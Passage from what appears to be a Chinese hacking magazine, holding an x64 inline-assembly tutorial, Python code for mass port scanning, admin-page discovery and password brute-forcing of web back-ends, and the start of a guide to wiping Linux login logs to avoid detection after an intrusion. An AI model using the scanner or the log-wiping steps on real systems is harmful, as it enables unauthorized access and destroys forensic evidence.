

图 3

通过上面的描述和代码编写，就实现了 Radmin 自动登录。

## X64 程序内联汇编两法

文/图 李旭昇

自 VS2010 和 WDK7 起，微软开发工具中的 64 位编译器就禁用了 `_asm` 关键字。如果想要内联汇编，就要费一番周折。最文档化的方法是一部分代码用 C 写，另一部分用汇编写，然后分别编译、一起链接。但这样做不仅需要进行大量设置，也无法实现在一个函数内 C 与汇编混用。《黑防》上曾介绍过一种方法，即先编译汇编代码，然后编程将得到的二进制指令拷贝到一片区域执行。这种方法亦有很大局限性，比如难于修改、容易出错等。本文介绍两种内联汇编方法：第一种利用 intrinsics 完成一些汇编才能做的工作，是变通的方法；第二种通过安装 Intel 编译器直接恢复 `_asm` 关键字的使用。

首先来看 intrinsics。简单地说，intrinsics 就是一些内联函数。与库函数（printf 等）相比，intrinsics 的实现直接由编译器完成。以 `__readdr()` 函数为例，它接收调试寄存器的编号（1 到 7）作为参数，返回该寄存器的值。



图 1 编译器生成的汇编指令

如图 1 为编译器生成的指令，其中没有函数调用，而是直接将 dr7 的值 mov 到 rax 寄存器中。那编译器为什么会生成这样的代码呢？我们找到 `__readdr` 函数的定义：

```c
__MACHINEX64(unsigned __int64 __readdr(unsigned int))
__MACHINEX86(unsigned int __readdr(unsigned int))
```

从这两个定义中找不到答案。事实上，问题的关键在于编译器“认识”`__readdr()` 函数，进而直接将其翻译为对应的汇编指令。也就是说，我们可以通过 `__readdr` 函数读取调试寄存器。对应地，写调试寄存器可以由 `__writedr` 完成。与这两个函数性质类似的函数整理如表 1 所示。

| 函数 | 说明 |
|---|---|
| `__readdr` / `__writedr` | 读/写调试寄存器 |
| `__readcrX` / `__writecrX` | 读/写控制寄存器 |
| `__readeflags` / `__writeeflags` | 读/写 eflags |
| `__readfsbyte` / `__readfsword` / `__readfsdword` / `__readfsqword` / `__writefs...` | 读/写距离 fs 寄存器一定偏移的内存 |
| `__readgsbyte` / `__readgsword` / `__readgsdword` / `__readgsqword` / `__writegs...` | 读/写距离 gs 寄存器一定偏移的内存 |
| `__readmsr` / `__writemsr` | 读/写 msr 寄存器 |
| `__debugbreak` | 生成 `c3` 指令，中断到调试器 |
| `__cpuid` / `__cpuidex` | 生成 `cpuid` 指令 |
| `__trap` | 产生 n 号中断 |
| `__sidt` / `__lidt` | 生成 `sidt/lidt` 指令 |
| `_InterlockedAnd` 等 | 进行原子操作 |
| `__inbyte` / `__outbyte` | 生成 `in/out` 指令 |
| `__rdtsc` | 生成 `rdtsc` 指令 |
| `_disable` / `_enable` | 关/开中断 |

表 1 常用的编译器 intrinsics

上表列出了常用的 intrinsics。（完整的 intrinsics 列表十分冗长，有兴趣的读者可以查阅 intrin.h 或 MSDN。未包含在表 1 中的 intrinsics 主要是位操作和 MMX 指令，前者可以由高级语言实现，后者我们的程序用不到。）如果这些 intrinsics 可以胜任工作，就无需使用内联汇编了。

当然，intrinsics 的能力有限，比如对通用寄存器的读写就无能为力，于是我们请出 Intel 编译器。Intel 编译器也支持 C/C++，且可以在 64 位程序中使用 `_asm` 关键字。更重要的是，Microsoft 与 Intel 是合作伙伴，Intel 专门开发 VS 插件，将自己的编译器集成到 VS 中，所以只要配置得当，我们就可以继续在 VS 中使用 `_asm`！

首先从 http://software.intel.com/en-us/intel-composer-xe/ 下载 Intel Composer XE 2013。注意，Composer 的版本不能低于 VS，否则 VS 插件无法安装。Composer 2013 的安装包有 1.5G，但我们只需安装 x64 编译器和 VS 插件，所以实际需要的空间很小。安装过程不再赘述，只是提醒大家 Composer 2013 搭配 VS2013 时有个 bug，可能导致生成失败（详见 http://software.intel.com/en-us/articles/fail-to-build-x64-configuration-in-visual-studio-2013-with-error-trk0002-failed-to-execute）。Intel 给出的修复办法是对 `C:\Program Files (x86)\MSBuild\Microsoft.Cpp\v4.0\V120\Platforms\x64\PlatformToolsets\Intel C++ Compiler XE 14.0\Toolset.props` 略作修改，上述链接中已给出修改后的文件。

安装完毕后，我们从开始菜单中运行 Parallel Studio XE 2013 with VS2013。VS 启动后，界面没有明显变化，如图 2 所示。我们还是按照原先的方法建立一个项目，这里以一个驱动为例。随后我们添加代码，作为示例，只是打印一个变量的值，代码如下：

图2 启动 Parallel Studio XE 2013 with VS2013

```c
#include <ntddk.h>

VOID Unload(PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);
    DbgPrint("Unload!\n");
}

extern "C" NTSTATUS
DriverEntry(
    _In_ PDRIVER_OBJECT DriverObject,
    _In_ PUNICODE_STRING RegistryPath
    )
{
    UNREFERENCED_PARAMETER(RegistryPath);
    DriverObject->DriverUnload = Unload;
    int a = 10;
    _asm{
        xor eax,eax
        mov a,eax
    }
    DbgPrint("a: %d\n", a);
    DbgPrint("Load!\n");
    return STATUS_SUCCESS;
}
```

此时直接编译会提示不支持 `_asm` 关键字。右击项目打开属性，如图3所示，将 Platform Toolset 设为 Intel C++ Compiler XE 14.0 并点击 Apply。这时菜单中会出现 Intel Specific 下拉菜单和一系列选项。将 Base Platform Toolset 设为 WindowsKernelModeDriver8.1（笔者使用 WDK8；如果使用 WDK7，请选择相应版本）。如图4所示，按 F7 编译成功。加载驱动后，输出如图5所示。



图3 设置项目属性以切换到 Intel 编译器

```text
1> xilink: executing 'link'
1> MiniFileFilter.vcxproj -> D:\visual studio 2010\MiniFileFilter - Copy\x64\Win7Debug\AsmDriver.sys
1> Done Adding Additional Store
1> Successfully signed: D:\visual studio 2010\MiniFileFilter - Copy\x64\Win7Debug\AsmDriver.sys
1>
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```

图4 驱动编译成功



图5 驱动执行结果

由此我们就恢复了使用内联汇编的能力，不必再被编译器所限制。需要注意的是，Intel 编译器的编译选项与微软编译器略有不同，如果遇到问题，请参阅有关文档。

## Python 打造批量服务器扫描破解工具

文/图 杭州电子科技大学（DesertEagle）马智超、杨宝山

Python 作为脚本语言，同多种系统函数和系统库乃至各类 Windows 系统建立了接口，在安全历史里扮演着非常重要的角色。本文用 Python 编写了一个批量服务器扫描破解系统，我们可以指定一个 IP 段进行扫描，实现批量 IP 地址端口扫描。对于给定的远程目标 Web 服务器，系统可以识别服务器上运行的 Web 服务器程序，可以选定 Web 服务器进行后台地址的扫描搜索，找到后台地址后可以指定字典进行弱口令暴力破解，之后拿下后台。其间用到了多线程技术，可以指定线程数，提高了速率。

在多线程 IP 地址端口扫描中，我们需要支持以下几种输入方式：

- 1. 10.10.0.0/16
- 2. 10.10.3.0/24
- 3. 10.10.1.0-10.255.255.255

端口扫描使用 TCP connect，对 IP 参数的处理用到了正则表达式。IP 参数处理如下：

```python
def analyze_1(ips): #返回 IP 前三节
    rule = re.compile(r"\d{1,3}\.\d{1,3}\.\d{1,3}\.")
    temp1 = ''
    for m in rule.finditer(ips):
        temp1 = m.group()
    return temp1

def analyze_1_24(ips):
    temp = []
    for x in xrange(1,255):
        temp.append(ips + str(x))
    return temp

def analyze_2(ips):
    rule = re.compile(r"\d{1,3}\.\d{1,3}\.")
    temp2 = ''
    for m in rule.finditer(ips):
        temp2 = m.group()
    return temp2 + '255.' + '255'
```

通过以上的处理，我们可以对指定的参数做出不同的功能选择，下面我们看看服务器程序识别原理。

首先利用 TCP 协议，生成一个 TCP SOCKET 功能连接指定的 Web，TCP 请求后会返回一个数据包，数据包里有头信息，而头信息里有服务器类型信息。通过接受数据包，进而就可以判定指定网址的服务器类型了；然后利用 HTTP 协议，发送 HTTP 请求，通过监控返回的信息状态来判定指定的后台网址是否正确；最后构造数据包 POST 传递，字典文件读取字符、暴力破解。

后台地址扫描代码如下：

```python
host="http://"+host
site=host
print "Ready to find the admin of the web,please choose the number:"
print "1 PHP"
print "2 ASP"
print "Choose number and 'Enter key' for Select Kind\n"
code=input(">")

if code==1:
    print("\t [+] Scanning " + site + " ...\n\n")
    for admin in php:
        admin = admin.replace("\n","")
        admin = "/" + admin
        host = site + admin
        print ("\t [#] Checking " + host + "...")
        connection = httplib.HTTPConnection(site,80)
        connection.request("GET",admin)
```

```python
response = connection.getresponse()
var2 = var2 + 1
if response.status == 200:
    var1 = var1 + 1
    print "%s %s" % ("\n\n>>>" + host, "Admin page found!")
    raw_input("Press enter to continue scanning.\n")
elif response.status == 404:
    var2 = var2
elif response.status == 302:
    print "%s %s" % ("\n>>>" + host, "Possible admin page (302 - Redirect)")
else:
    print "%s %s %s" % (host, "Interesting response:", response.status)
    connection.close()

print("\n\nCompleted \n")
print var1, " Admin pages found"
print var2, " total pages scanned"
raw_input("[/] The Game Over; Press Enter to Exit")

if code==2:
    print("\t [+] Scanning " + site + "...\n\n")
    for admin in asp:
        admin = admin.replace("\n","")
        admin = "/" + admin
        host = site + admin
        print ("\t [#] Checking " + host + "...")
        connection = httplib.HTTPConnection(site)
        connection.request("GET",admin)
        response = connection.getresponse()
        var2 = var2 + 1
        if response.status == 200:
            var1 = var1 + 1
            print "%s %s" % ("\n\n>>>" + host, "Admin page found!")
            raw_input("Press enter to continue scanning.\n")
        elif response.status == 404:
            var2 = var2
        elif response.status == 302:
            print "%s %s" % ("\n>>>" + host, "Possible admin page (302 - Redirect)")
        else:
            print "%s %s %s" % (host, "Interesting response:", response.status)
            connection.close()
            print("\n\nCompleted \n")
            print var1, " Admin pages found"
            print var2, " total pages scanned"
            raw_input("The Game Over; Press Enter to Exit")
```

原理和核心代码大致就这些，下面是测试的效果截图。本程序名字叫 Eye，进入页面时效果如图1所示，可以选择是进行端口扫描还是 Web 后台扫描、服务器类型识别。



图1

批量扫描端口效果如图2和图3所示，基于 -24、-32 模式。



图2



图3

批量扫描端口效果如图4所示，基于 10.10.1.0-10.255.255.255 模式。



图4

服务器类型识别效果如图5和图6所示。



图5



图6

扫描后台效果如图7所示。



图7



图8



图9

暴力破解后台效果如图10和图11所示。



图10



图11

本文简单地测试了一下，经过测试扫描速度还算可以，用户可以自定义线程数，可以完成给定类型的批量端口扫描、后台地址扫描、对 Web 服务器类型的判别与后台地址的暴力破解。

## Linux 入侵日志清理

文/图 lyrics

在计算机运行的时候，系统中总会留下一些历史记录或残留信息，如果计算机遭到入侵，则留在系统中的事件记录能够反映这一入侵事件。这些可以证明入侵的信息就是计算机证据，而收集这些证据的过程则被称为计算机取证。

计算机证据主要由两方面组成：一个是系统方面，包含系统日志文件、入侵残留物（遗留的程序、脚本等）；另一个是网络方面，包含防火墙日志、IDS 日志和网络服务（http、ftp）产生的日志等。本文主要关注系统日志文件的清理，系统日志记录了用户登录时间、登录 IP、进行的具体操作等内容。如果能够在退出系统前清理相关的日志，则能够减少被发现的概率，避免一些不必要的麻烦。

Linux 的日志大多记录在 /var/log 目录下的文件里，也有些发行版本会保存到 /var/adm 里。表1列出了比较敏感的日志文件信息。由于手上只有 Ubuntu、RedHat 和 Fedora 的系统，其他的发行版本有待补充。

| 文件 | 发行版本/适用系统 | 内容/说明 |
|---|---|---|
| auth.log | Ubuntu | 记录系统授权信息，如 sshd、cron 等 |
| secure | RedHat、Fedora | 记录系统授权信息，如 sshd、cron 等 |
| btmp（二进制文件） | 所有 | 记录失败的登录信息 |
| wtmp（二进制文件） | 所有 | 记录登录/退出的历史信息 |
| lastlog（二进制文件） | 所有 | 记录每个用户的最后登录时间 |
| faillog（二进制文件） | Ubuntu、RedHat | 记录不成功的登录企图 |
| .bash_history | 所有 | 记录用户的操作日志 |

表1 Linux 系统日志列表

首先来看 auth.log 和 secure 文件，这两个文件记录的内容基本一致，只不过存在于不同的发行版本内。图1中记录了 root 从 ssh 登录进来的信息，包含登录时间、登出时间和 IP。最后一条日志是在用户退出后产生的，这就需要脚本在用户退出后自动执行删除操作。

```text
10:33:12 ubuntu sshd[23556]: Accepted password for root from 10.253.0.7
10:33:12 ubuntu sshd[23556]: pam_unix(sshd:session): session opened for
10:59:57 ubuntu sshd[23556]: pam_unix(sshd:session): session closed for
```

图1 auth.log/secure 文件信息

接下来是 btmp 和 wtmp 文件，这两个是二进制文件，用文本编辑器打开看不到具体信息，Linux 下分别使用 lastb 和 last 命令对 btmp 和 wtmp 进行查看，如图2所示。记录了登录用户、IP 地址以及登录和退出的时间戳。同样，wtmp 记录的登出时间是在用户退出后记录的，因此也要在用户退出后再进行清理。



图2 btmp 和 wtmp 文件信息

下面是 lastlog 和 faillog 文件，同样也要用 lastlog 和 faillog 命令进行查看，图3是 lastlog 的输出信息，记录的是每个用户的最后登录时间、IP 和端口。



图3 lastlog 的文件信息

最后是 .bash_history 文件，这个文件是存放在 ~ 目录中，每个用户都有一个 .bash_history 文件，例如 ubuntu 用户的 ~ 目录等价于 /home/ubuntu，而 root 用户的 ~ 目录等价于 /root。这个文件记录用户的命令行操作，但记录并不是实时写入的，而是在终端退出时写入。

